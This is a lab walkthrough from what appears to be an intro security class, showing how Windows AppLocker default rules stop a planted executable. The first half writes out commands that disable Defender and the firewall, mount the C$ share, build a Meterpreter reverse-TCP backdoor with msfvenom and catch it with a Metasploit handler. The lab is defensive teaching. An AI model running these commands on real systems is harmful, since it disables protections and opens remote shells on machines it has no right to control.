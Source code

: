 # AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Kali** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of **Windows Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)

This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>


Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

![](attachments/powershellipconfig.png)

**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let’s continue by opening a **Kali** instance.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's start by getting root access in our terminal.

<pre>sudo su -</pre>

We need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=password1234</pre>

**REMEMBER - YOUR IP ADDRESS AND PASSWORD WILL BE DIFFERENT.**

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, ignore it.
Run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Before we run the next commands, we need to get the IP of our Kali System (AKA our Linux IP Adress). Lets do so by running the following:

<pre>ifconfig</pre>

![](attachments/applocker_ifconfig.png)

**REMEMBER: YOUR IP WILL BE DIFFERENT**

Now, run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit Handler**.  First, open a new **Kali** instance. The easiest way to do this is by clicking on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

![](attachments/msfconsole.png)

The **Metasploit Handler** successfully ran if the terminal now starts with **"msf6 >"**

Next, let's run the following:

<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your Linux IP Address]</pre>

**REMEMBER - YOUR IP WILL LIKELY BE DIFFERENT!**

Go ahead and run the exploit:

<pre>exploit</pre>

It should look like this:

![](attachments/msf6commands.png)

Let’s download the malware and run it!

Open a **Windows** command prompt. Do this by clicking on the icon in the taskbar.

![](attachments/OpeningWindowsCommandPrompt.png) 

Once the prompt is open, let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

![](attachments/runtrustme.png)

Back at your **Kali** terminal, you should now have a **metasploit** session!

![](attachments/meterpretersession.png)

Let’s stop this from happening!

To do this we will need to access the **"Local Security Policy"** on your **Windows** System.

Simply press the Windows key, (lower left hand of your keyboard, looks like a Windows Logo), then type **"Local Security"**.  It should bring up a menu like the one below, please select **"Local Security Policy"**.

![](attachments/localsecuritypolicy.png)

We will need to configure **AppLocker**.  To do this, please go to Security Settings > Application Control Policies > AppLocker.

![](attachments/localsecpolicywindow.png)

Scroll down in the right hand pane. You will see there are **"0 Rules enforced"** for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to break a system.

![](attachments/rulesoverview.png)

Please select each of the above Rule groups, **"Executable, Windows Installer, Script, and Packaged,"** and for each one, right click in the area that says **“There are no items to show in this view.”** and then select **“Create Default Rules”**.

![](attachments/createdefaultrules.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 

![](attachments/appliedrules.png)

For simplicity, you can click the next set of rules from the left panel as seen above.

We now need to enforce the rules:

To do this you will need to select **AppLocker** on the far left pane.  You will need to select **"Configure rule enforcement"**.  This will open a pop-up. Check the **"Configured"** box for each set of rules.  

![](attachments/ruleenforcement.png)

We will need to start the **"Application Identity service"**.  This is done through pressing the Windows key and typing **"Services"**.  

![](attachments/services.png)

This will bring up the **Services App**.  Double-click **“Application Identity”**.

![](attachments/applicationidentity.png)

Once the **"Application Identity Properties"** dialog is open, please press the **Start** button.  This will start the service.

![](attachments/startservice.png)

Open a command prompt and run **"gpupdate"** to force the policy change.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>gpupdate /force</pre>

We are now going to try to run **"TrustMe.exe"** as another user on the system. 

Run the following commands:

<pre>cd /IntroLabs</pre>

<pre>runas /user:whitelist "nc"</pre>

The password is **adhd**

![](attachments/runas.png)

As you can see, an error was generated, meaning that we were successful!

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
